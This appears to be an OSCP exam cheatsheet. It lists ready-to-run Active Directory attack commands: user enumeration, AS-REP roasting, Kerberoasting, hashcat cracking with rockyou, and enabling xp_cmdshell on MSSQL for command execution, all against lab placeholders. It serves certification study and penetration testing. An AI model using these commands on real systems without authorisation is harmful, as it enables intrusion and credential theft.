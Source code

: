 # OSCP Cheatsheet v2 - Exam Quick Reference

## 🚀 QUICK START
```bash
# Initial scan
./nmap-scan.sh <IP> -t 900 --no-udp

# Check privileges (Windows)
whoami /priv

# Check privileges (Linux)
sudo -l
```

## 🖥️ ACTIVE DIRECTORY LABS

### MS01 - Initial Foothold & Privilege Escalation

#### Check User Privileges
```powershell
# List current user's privileges
whoami /priv
```
**Look for**: `SeImpersonatePrivilege` → escalate to Local Admin

#### Domain Enumeration
```bash
# Enumerate domain users and build wordlist
nxc smb <target> -u <user> -p <pass> --users | awk '$1 == "SMB" && $5 != "[+]" && $5 != "-Username-" && $5 != "[*]" && $5 != "Guest" && $5 != "krbtgt" {print $5}' > domain_users

# Enumerate SMB shares
nxc smb 192.168.X.X -u <user> -p <pass> --shares
```

#### Active Directory Attacks
```bash
# AS-REP Roasting
impacket-GetNPUsers oscp.exam/ -dc-ip 10.10.X.X -no-pass -usersfile domain_users
hashcat -m 18200 asreproast_users /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

# Kerberoasting
impacket-GetUserSPNs -request -dc-ip 10.10.X.X oscp.exam/<user>
hashcat -m 13100 kerberoast_users /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

#### SQL Server Access
```bash
# Impacket
mssqlclient.py <domain>/<user>@<host> -windows-auth
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
EXEC xp_cmdshell 'whoami';

# NetExec
nxc mssql <target> -u <user> -p <pass> --local-auth -q 'SELECT name FROM master.dbo.sysdatabases;'
nxc mssql <target> -u <user> -p <pass> --local-auth -x whoami
```
